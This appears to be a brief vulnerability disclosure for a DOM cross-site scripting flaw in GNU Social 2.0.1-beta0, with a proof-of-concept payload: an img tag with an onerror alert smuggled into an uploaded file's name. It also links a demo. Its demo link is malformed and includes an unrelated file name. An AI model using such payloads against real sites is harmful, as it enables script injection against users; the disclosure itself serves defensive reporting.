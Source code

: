 Vulnerability: GNU SOCIAL 2.0.1-beta0 DOM XSS
URL: Any File Upload for posting content.
Payload: ```<img src="x" onerror="alert(1);">.png```
Action to trigger: 
Version: ‎Version: GNU_SOCIAL_2.0.1-beta0
Authenticated: Yes
User: Any Account


Demo:
![]([https://github.com/4rdr/proofs/blob/main/gifs/faveo-helpdesk_2.0.3_File_Traversal_via_dl.gif](https://github.com/4rdr/proofs/blob/main/gifs/GNU_SOCIAL_2.0.1-beta0_DOM_XSS_via_Fileupload.gif?raw=true)
